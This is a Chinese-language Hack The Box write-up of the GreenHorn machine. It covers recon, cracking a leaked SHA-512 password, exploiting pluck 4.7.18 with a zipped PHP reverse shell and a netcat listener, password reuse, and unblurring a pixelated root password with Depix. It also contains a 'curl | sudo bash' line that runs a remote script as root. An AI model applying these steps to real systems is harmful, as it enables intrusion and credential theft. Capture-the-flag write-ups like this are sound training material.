 ```yaml
---
tags:
  - HTB/Easy
  - HTB/Linux
---
```


## Summary

...

### Relevant Skills

- nmap
- password reuse
- Deblurring (Depix)

### Attack Path Overview

![attack-path](./../attackpath/HTB-template.png){ width='500' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
```

## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH的版本较新，优先度放低。有个3000端口可以先看稍微看看是什么，然后再研究80端口的Web。


## 3000端口

是一个Gitea，点击左上角的`Explore`后发现一个仓库，根据`login.php`顺藤摸瓜找到`http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php`中的密码，且根据代码可得知这是`sha512`哈希。

扔到<https://hashes.com/en/decrypt/hash>可破解：`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1:SHA512PLAIN`

## 80端口

- robots.txt： 有两个无法访问的目录（`/data/`和`/docs`）。仓库中也有一样的文件。
- .git/config：无
- 网页信息：无特别发现
- 网页源码：pluck 4.7.18
- 网页功能：未知，不过点页脚的`admin`可跳转到登陆界面，前面破解的密码（`iloveyou1`）可以登陆。
- 子域枚举：无特别发现
- 目录枚举：前面信息似乎有用，暂放

## Initial Access

谷歌`pluck 4.7.18`可发现这两个PoC：

1. <https://packetstormsecurity.com/files/173640/Pluck-4.7.18-Remote-Shell-Upload.html>
2. <https://www.exploit-db.com/exploits/51592>

第1个有效但是如果将payload改为反弹shell就没用了。也尝试过改payload为获取`/etc/passwd`，可以成功获取且找到用户`junior`，然后尝试密码重用登陆ssh，但是报错：`junior@10.10.11.25: Permission denied (publickey)`。  
尝试第2个，将php反弹shell压缩为zip（`zip shell.zip shell.php`），poc脚本中注意url的构造`rce_url="http://greenhorn.htb/data/modules/shell/shell.php"`。

成功获得反弹shell：
```bash
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.25] 39892
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 12:26:49 up 26 min,  1 user,  load average: 0.01, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
junior   pts/1    10.10.14.57      12:21    2:53   0.00s  0.00s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

升级tty后，找到用户`junior`，然后密码重用成功登录：
```bash
www-data@greenhorn:~/html/pluck/data/settings$ su - junior
Password: 
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
```


## flag: user

```bash
junior@greenhorn:~$ cat user.txt 
850dd<...SNIP...>3211
```


## Privilege Escalation

### Internal Recon

基础信息收集一把梭：

- IP、端口
- 用户家目录的隐藏文件：无
- `sudo -l`：没有sudo可执行
- SUID：无特别发现
- cron：`crontab -l`，`ls /etc/cron*`，无特别发现


![[HTB-GreenHorn-pdf.png]]


https://github.com/spipm/Depix


![[HTB-GreenHorn-pdf-Depix.png]]

（尝试有空格无效）去掉空格后即：`sidefromsidetheothersidesidefromsidetheotherside`

将该密码应用到root：
```bash
junior@greenhorn:/home$ su -
Password: 
root@greenhorn:~# ls
cleanup.sh  restart.sh  root.txt
```

## flag: root

```bash
root@greenhorn:~# cat root.txt 
9df7b<...SNIP...>cfc9
```

---

## 总结·后记

2024/07/21




关于`junior`用户无法直接用ssh登陆：
```bash
root@greenhorn:~# tail /etc/ssh/sshd_config 
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
UseDNS no
GSSAPIAuthentication no

# Don't allow junior to ssh with password
Match User junior
    PasswordAuthentication no

```